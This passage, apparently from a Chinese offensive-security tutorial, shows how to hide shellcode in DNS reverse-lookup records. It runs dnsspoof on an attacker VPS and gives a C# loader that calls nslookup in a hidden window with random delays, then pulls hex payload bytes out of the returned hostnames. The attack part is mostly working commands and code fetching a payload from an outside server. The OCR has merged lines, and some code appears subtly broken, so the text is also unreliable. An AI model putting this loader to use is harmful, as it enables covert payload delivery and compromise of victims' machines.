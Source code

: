 ```
[!] IPaddress Counter is: 31[!] IP Segment: 192.168.1.
```

## **3.2 启动DNS服务**

通过上述步骤我们就得到了格式化的DNS反向解析数据，现在就来开启DNS服务。

将上述得到的Dns Host Txt结果保存成文本，并放到作为DNS服务器的VPS上，然后下载dnsspoo。

```
apt-get install dnsspoof -y
```

启动DNS服务  

```
dnsspoof -f dns.txt
```

nslookup验证

```
λ nslookup 192.168.1.0 10.0.0.8DNS request timed out.    timeout was 2 seconds.服务器:  UnKnownAddress:  10.0.0.8名称:    "fc4883e4f0e8c8000000415141505251564831d265488b5260488b521848.google.com"Address:  192.168.1.0
```

## **3.3 C# DNS text Loader**

指定我们DNS反向解析参数，这里就要用到上述保存的IP段、IP数量信息，以及你的DNS server地址。

```
string _DnsServer = "10.0.0.8";string _IPaddress_Begin = "192.168.1.";int _IPaddress_Counter = 31;
```

获取单个IP的DNS反向解析数据，执行nslookup

```
ProcessStartInfo ns_Prcs_info = new ProcessStartInfo("nslookup.exe", DNS_PTR_A + " " + DnsServer);ns_Prcs_info.RedirectStandardInput = true;ns_Prcs_info.RedirectStandardOutput = true;ns_Prcs_info.UseShellExecute = false;var random = new Random();System.Threading.Thread.Sleep(random.Next(1, 800));Process nslookup = new Process();nslookup.StartInfo = ns_Prcs_info;nslookup.StartInfo.WindowStyle = ProcessWindowStyle.Hidden;nslookup.Start();string computerList = nslookup.StandardOutput.ReadToEnd();
```

这样获得的数据如下：  

```
DNS request timed out.    timeout was 2 seconds.服务器:  UnKnownAddress:  10.0.0.8名称:    "fc4883e4f0e8c8000000415141505251564831d265488b5260488b521848.google.com"Address:  192.168.1.0
```

这些数据并不能使用，我们需要提取出payload数据，即fc4883e4f0e8c8000000415141505251564831d265488b5260488b521848。

提取出payload数据

```
string[] lines = computerList.Split('\r', 'n');string last_line = lines[lines.Length - 4];string temp_1 = last_line.Remove(0, 9);_Records = "\"" + temp_1;int i = temp_1.LastIndexOf('.');string temp_2 = temp_1.Remove(i, (temp_1.Length - i));int b = temp_2.LastIndexOf('.');string final = temp_2.Remove(b, temp_2.Length - b);
```
